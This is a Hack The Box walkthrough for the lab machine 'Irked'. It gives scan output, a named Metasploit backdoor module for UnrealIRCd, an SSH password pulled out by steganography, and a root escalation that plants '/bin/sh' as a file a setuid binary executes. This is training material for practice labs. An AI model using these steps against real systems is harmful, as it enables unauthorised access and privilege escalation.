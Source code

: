 ```yaml
---
layout: PostSimple
date: 2019-12-06
title:     "Hack The Box - Irked"
tags: ['linux','easy','steg']
categories: HackTheBox
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/1.png)

We are going to pwn Irked from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/163](https://www.hackthebox.eu/home/machines/profile/163)


Like always begin with our Nmap Scan.

## Nmap Scan Results

```bash
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
60236/tcp open  unknown
65534/tcp open  unknown


PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          39016/udp6  status
|   100024  1          45688/udp   status
|   100024  1          52691/tcp6  status
|_  100024  1          60236/tcp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
60236/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Start from HTTP port 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/2.png)[br/](br/)
This image looks suspecious , lets try Gobuster

## Gobuster Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.117
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/10 23:56:59 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/manual (Status: 301)
/server-status (Status: 403)
===============================================================
2019/12/10 23:59:11 Finished
===============================================================
```

Nothing useful. Check other ports.
We know ``UnrealIRCD`` running, search them in searchsploit for any exploits
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/3.png)

I choose randomly and started with ``metasploit`` one

>https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor

>use exploit/unix/irc/unreal_ircd_3281_backdoor

## Getting Shell

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/4.png)[br/](br/)
Set RHOST and LHOST

I got the shell as ``ircd``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/5.png)[br/](br/)
While checking the home directory I found an user ``djmardov`` and got ``.backup`` file. 
It says ``steg`` maybe it is ``Stegnanography``

## Getting User Djmardov

We already saw an image in webpage , download it
I tried with [steghide](https://github.com/StefanoDeVuono/steghide)

>steghide - a steganography program

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/6.png)

It has a file called ``pass.txt``which is password protected and we got the pass already from ``.backup``

I got a password

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/7.png)

```
extract, --extract      extract data
-xf, --extractfile      select file name for extracted data
```

So I tried with them in ``ssh`` - ``djmardov:Kab6h+m+bbp2J:HG``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/8.png)


## Privilege Escalation

There is an setuid binary ``viewuser``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/9.png)

While executing it search for a file called ``listusers`` in ``/tmp``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/10.png)

Which is not found so we create one and make that gives us shell.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/11.png)

I created one and tried executed the file ``viewuser`` it says permission denied for ``listusers``, I forgot to give permission and then it worked.
> echo “/bin/sh” > listusers

I got Root~



